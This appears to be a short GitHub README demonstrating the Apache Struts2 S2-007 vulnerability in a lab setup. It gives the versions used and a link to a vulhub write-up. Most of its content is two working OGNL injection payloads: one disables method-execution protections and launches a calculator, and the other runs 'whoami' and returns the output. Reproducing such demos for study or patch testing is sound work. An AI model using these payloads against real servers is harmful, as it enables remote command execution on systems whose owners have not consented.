 # S2-007 Demo

## Environment
Struts2: struts-2.2.3
Tomcat: 8.5.53
IDE: idea 2020.1.1 ULTIMATE

## POC



![{A7084584-483F-4AA5-A99E-B1B26E8A911B}_20200619183031]({A7084584-483F-4AA5-A99E-B1B26E8A911B}_20200619183031.jpg)

## Payload

- open calc.exe

  ```java
  ' + (#_memberAccess["allowStaticMethodAccess"]=true,#foo=new java.lang.Boolean("false") ,#context["xwork.MethodAccessor.denyMethodExecution"]=#foo,@java.lang.Runtime@getRuntime().exec("open /Applications/Calculator.app")) + '
  ```

- run command

  ```java
  ' + (#_memberAccess["allowStaticMethodAccess"]=true,#foo=new java.lang.Boolean("false") ,#context["xwork.MethodAccessor.denyMethodExecution"]=#foo,@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('whoami').getInputStream())) + '
  ```

## Reference

- [S2-007 远程代码执行漏洞](https://github.com/vulhub/vulhub/blob/master/struts2/s2-007/README.zh-cn.md)
